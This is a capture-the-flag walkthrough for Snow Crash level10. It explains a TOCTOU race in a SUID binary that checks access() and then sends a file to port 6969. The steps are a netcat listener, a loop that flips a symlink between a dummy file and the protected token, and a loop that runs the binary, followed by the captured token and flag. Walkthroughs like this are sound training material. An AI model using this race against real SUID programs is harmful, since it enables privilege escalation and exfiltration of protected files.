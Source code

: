 # README.md

```markdown
# Snow Crash - Level10 Walkthrough

## 🔐 Level Description

When connecting to level10, we have:

```bash
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

- `level10`: A SUID binary.
- `token`: A file owned by `flag10` with no read permissions for `level10`.

---

## 📦 Binary Behavior Analysis

Using `ltrace` and `strings`, we find the binary:

- Takes two arguments: **file** and **host**.
- Tries to connect to **port 6969** on the given host.
- Uses `access()` to check file permissions before sending.

Example output:

```bash
level10@SnowCrash:~$ ltrace ./level10
Connecting to %s:6969 ..
Unable to connect to host %s
Unable to write banner to host %s
Connected!
```

This exposes a **TOCTOU (Time-Of-Check-To-Time-Of-Use)** vulnerability using `access()`.

---

## 🧠 Exploitation Strategy

We can exploit the race condition by:

1. Setting up a **listener** on port `6969` (using `nc`).
2. **Rapidly swapping** symbolic links between a dummy file and the `token`.
3. Repeatedly executing the vulnerable binary to catch the right timing.

---

## ⚙️ Step-by-Step Exploitation

### 1. Open a second SSH session

```bash
ssh level10@[IP_SNOW_CRASH] -p 4242
```

### 2. In the second session, start a Netcat listener:

```bash
level10@SnowCrash:~$ nc -lk 6969
```

### 3. In the first session, start an infinite symlink switch loop:

```bash
level10@SnowCrash:~$ while true; do ln -sf /tmp/test /tmp/race; ln -sf ~/token /tmp/race; done &
```

- This script constantly swaps `/tmp/race` between `/tmp/test` and the `~/token`.

### 4. In the first session, run the vulnerable binary in a loop:

```bash
level10@SnowCrash:~$ while true; do ./level10 /tmp/race [IP_SNOW_CRASH]; done
```

### 5. Wait for the token to appear in the Netcat listener:

```bash
level10@SnowCrash:~$ nc -lk 6969
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
```

---

## 🏁 Final Step

Use the token to switch to `flag10`:

```bash
level10@SnowCrash:~$ su flag10
Password: [TOKEN]
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

---

## 🧩 Summary

- Found a TOCTOU vulnerability via `access()`.
- Used symbolic link flipping to race and trick the binary.
- Used Netcat to capture the token.
- Learned how to automate race condition exploits.
